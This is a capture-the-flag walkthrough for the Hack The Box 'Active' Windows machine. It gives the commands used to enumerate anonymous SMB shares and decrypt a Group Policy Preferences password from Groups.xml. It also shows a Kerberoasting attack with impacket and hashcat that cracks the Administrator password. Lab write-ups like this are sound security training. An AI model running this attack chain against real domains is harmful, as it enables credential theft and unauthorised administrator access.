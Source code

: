 ```yaml
---
date: 2025-02-03
categories: [Windows, Easy, AD]
---
```


![Active](https://labs.hackthebox.com/storage/avatars/5837ac5e28291146a9f2a8a015540c28.png)

---

| **Created by** | **Page**     | **Difficulty** | **OS**  |
|-------------|--------------|----------------|---------|
| [eks](https://app.hackthebox.com/users/302) & [mrb3n](https://app.hackthebox.com/users/2984)        | [Hack The Box](https://www.hackthebox.com/)     | Easy           | Windows   |

---









- The first step is to perform a scan of the open ports and then list the versions and technologies used on the open ports.

```python
nmap -p- --open -vvv --min-rate 3000 -Pn -sS 10.10.10.100 -oG scan
/opt/extractports scan
nmap -p53,88,135,139,389,445,464,593,636,3268,3269,5722,9389,49152,49153,49154,49155,49157,49158,49164,49173,49175 -Pn -sCV 10.10.10.100 -oN ports
```

![image](https://github.com/user-attachments/assets/baf448df-4fe3-49f1-b62a-ed6d0e49cdad)

 - I found the domain `active.htb`, I added it to the file in the `hosts` file

- I list the shared resources without using credentials and I manage to see a folder that I have read permissions called “Replication”.

```python
netexec smb 10.10.10.100 -u '' -p '' --shares
```

- I connect to the share and after searching I find a Groups.xml file containing credentials of the user SVC_TGS

```python
smbclient \\\\10.10.10.100\\Replication -N
```

![image](https://github.com/user-attachments/assets/b39f9e4c-17e8-491c-9a2d-ff1c6113ff49)

- Using gpp-decrypt I manage to decrypt the given Group Policy 

```python
gpp-decrypt  edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
```

![image](https://github.com/user-attachments/assets/8a5d8e0a-b5cc-43f2-8fa7-e8bbe4c3475c)

- Valid credentials are correct. I have read permissions for this user and I have read permissions on the Users folder. I connect to the folder and I manage to read the first flag

```python
netexec smb 10.10.10.100 -u SVC_TGS -p GPPstillStandingStrong2k18 --shares
smbclient \\\\10.10.10.100\\Users -U SVC_TGS
```

![image](https://github.com/user-attachments/assets/0f7ff103-bbc1-4745-b041-04da67c740f9)

- Having the valid credentials of a user, I check if any user has SPN set and I can perform a Kerberoasting Attack. I see that I can execute it against the Administrator user

```python
impacket-GetUserSPNs active.htb/SVC_TGS:GPPstillStandingStrong2k18 -request
hashcat -m 13100 tgsAdministrator /usr/share/wordlists/rockyou.txt
```

![image](https://github.com/user-attachments/assets/9ba7876d-065e-429b-9262-7e988ffd2bac)

- After getting the TGS from the user, we tried to get the password in clear text and succeeded. We connected via smb to the Users folder and managed to read the second flag.

```python
smbclient \\\\10.10.10.100\\Users -U Administrator
```
